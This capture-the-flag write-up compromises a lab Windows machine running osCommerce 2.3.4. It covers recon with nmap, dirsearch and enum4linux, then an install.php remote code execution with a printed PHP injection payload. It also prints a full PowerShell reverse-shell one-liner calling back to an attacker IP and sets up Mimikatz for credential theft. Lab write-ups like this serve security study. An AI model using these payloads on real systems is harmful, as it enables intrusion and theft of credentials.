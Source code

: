 
## Reconnaissance:

First of all, to understand whether machine live or not try to
`ping` it.

```
ping 10.10.118.119
```

The output should look like:

![](images/06c49cfdb3563b7ef75c44823412a9a9.png)

Add your ip address to `/etc/hosts` file.

```
nano /etc/host
```

Include your ip address the format provided below:

![](images/e256c9ecc71b6a629d2932ab628f67d2.png)


Before move on, I highly recommend you to check manually whether `web application` runs on `port 80/443` via browser. In most scenarios, we will not have https protocol.

```
//The route that you need to follow is:
http://blueprint.thm
```

This route automatically interact with HTTP protocol. Most of the time browsers have default routing mechanism directing to port 443. We should always try to route port 80 by just manually adding `http://`

![](images/c068cd371cefeebe4fea0d6d0d2a2ca3.png)

Recently, I also tried to check `Apache` commonly running on port 8080:

![](images/dcab54bce716923eec702c7e99121b0c.png)

As you can see above, we have an directory named `oscommerce-2.3.4`. I was curious about it ,so I searched about our Operating System commerce app.

![](images/8266e4bfeda1bd42d8f9794eb4ea0a13.png)

It is clear that we should trigger RCE through web app. However, further reconnaissance is not harmful :) I also wanted to `fuzz` this route `http://blueprint:8080`

For the fuzzing, I thought that `dirsearch` and `dirb` will be suitable:

`Dirsearch` payload:

```
dirsearch -u http://blueprint.thm:8080
```

![](images/f19c9085129709ee14d013be869df69b.png)

I just got `/server-status/`, `/server-info` paths. Capturing server data is useful for the architectural understanding. Let me extract what we have so far !


![](images/9eb9cd58b9ea5e04c890326b5c1f471f.png)

I was dealing with `Win32` architecture, `Apache` as a web server and for the backend `PHP` working on the machine. Furthermore, on `/oscommerce-2.3.4/docs/` path, there was a database dump. However, I could not reach any juicy information.

![](images/602e8f042f463dc47ebfdf6a94ed5a6d.png)


The `database scheme` pattern looks like `ER diagram`.

Nmap was beneficial to get extended data about application:

Nmap Payloads:
```
sudo nmap -sV -sC blueprint.thm

sudo nmap -sV -sC -p- blueprint.thm
```

Since I have already get what we need especially architecture of the application. I preferred to use only `default script` scan. Moreover, full port scan was not compatible on this scenario because it ran really slow. Anyway, let's check the `network mapper` output.

![](images/7afbb1602613ec52b265d7a54ad27330.png)

The results depicted that I did not check only the port `445` as known as `SMB` (Server Message Block).


![](images/586e508f161f26ce94633729ac56c602.png)

`Nmap` script engine automatically run `default smb scripts` against on target. Lastly, checking the SMB will be crucial to get initial compromise since `nmap` script result revealed the potential discovery on `SMB`.

According to `HackTricks`, we can use `enum4linux` to enumerate the target:

[Pentesting SMB](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)

![](images/59b2900aa03cb2182a51cdb520b535b6.png)

```
enum4linux -a 10.10.118.119
```

The most identical part of the `enum4linux` output was the `nbtstat information`.

![](images/9eb60bc8bf2b004e4db7d1cc0d5f1d8c.png)

Script could get the `Domain/Workgroup` named `WORKGROUP`. Let me try to authenticate it through without giving credentials.

![](images/c00b57557743e709b8b96933432e0dfa.png)

```
	//IPC$ did not allow me to run any commands
	──(root㉿kali)-[/home/kali]
	└─# smbclient -U '%' -N \\\\10.10.118.119\\IPC$  
	Try "help" to get a list of possible commands.
	smb: \> dir
	NT_STATUS_ACCESS_DENIED listing \*
	smb: \> whoami
	whoami: command not found
	smb: \> ls
	NT_STATUS_ACCESS_DENIED listing \*
	smb: \> 
```

SMB did not give me useful findings. Therefore, I switched on exploitdb to get initial compromise.

[RCE](https://www.exploit-db.com/exploits/44374)


![](images/7b6fbd4c592d356e087a0f1053751007.png)

There was a web app based vulnerability occurs ,so let me apply this manually before I demonstrate all the ways to compromise machine.

Specifically, `PHP engine` shows an error the path `/install.php?step=4`. DB configuration error occured.

![](images/2484a7df36877a14689574eebda6dd7c.png)

I intended to do directly manual without any tool ,but it did not work. That's why, lets run `manual exploit

Firstly, edit the `url` part of the script:

![](images/93fa92bdae1981a20d355379e140e730.png)


As you can see below, it did not work because the script automatically tried to execute `system('ls')` command on the OS.

![](images/1e412544122065c25107eadecd8208c7.png)

However, the web app disabled such commands by default ,so lets run another payload from [Github](https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution)

To understand how the script works, I initially ran it just by giving any parameters and inputs.

![](images/c9baca3cda1c39194c04fe2170c3da65.png)

Payload that I have used:

```
python3 osCommerce2_3_4RCE.py http://10.10.31.69:8080/oscommerce-2.3.4/catalog
```

Custom script directly injects the payload through the POST method on `install.php?step=4` and manipulating DB_DATABASE parameter to include `PHP command injection` by `passthru()` method. As you know, I could not use system(); method because of the web app restrictions.

Malicious payload:

```
'); passthru('whoami'); /*
```

![](images/88399fdcf82e54c15ebbaabe86ff3e5e.png)

Although there were not any privilege execution mechanism on script, I had straightforwardly get `NT AUTHORITY\SYSTEM`. However, still I could not move any paths directly on `OS`.

![](images/ba6beb7ae28ef0a97d7a0a038feb5060.png)

Hence, I also wanted to try again [`Exploit Db`](https://www.exploit-db.com/exploits/44374) Maybe I can upgrade my shell with `Powershell reverse shell`. Because of the script's iteration. I was not able to interact with shell properly. It only allowed me to show `current directory`.

The payload that I used:
```
powershell -NoProfile -Command "$client = New-Object System.Net.Sockets.TCPClient(\'10.11.69.113\',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \'PS \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Just change the IP address with your machine and port. You can generate your payloads from here:

[RevShell Generator](https://www.revshells.com/)

Now deploy `netcat listener`:

```
nc -lvnp 4444
```

![](images/7134f8f5aced525d1c11d229063305e7.png)

You can directly paste when you prepare your payload as above. Then switch on the shell that you spawned.

You should wait at least `15 seconds` to ensure ready your upgraded `reverse shell`. That's all ! !

![](images/75c168b671d4ce827fca23907d85f114.png)

To get `LAB` user flag, you should use `Mimikatz` to get the `NTLM` hash of the user.

Upload `mimikatz.exe`:

deploy local python server
```
python -m http.server 3131
```

Since the target is x86 device known as 32bit:

![](images/7ae5e99a8c2f19cd25f44313293553aa.png)

Using `mimikatz32.exe` is compatible for us. That's all for m today guys ! !

May The Pentest Be With Your ! !

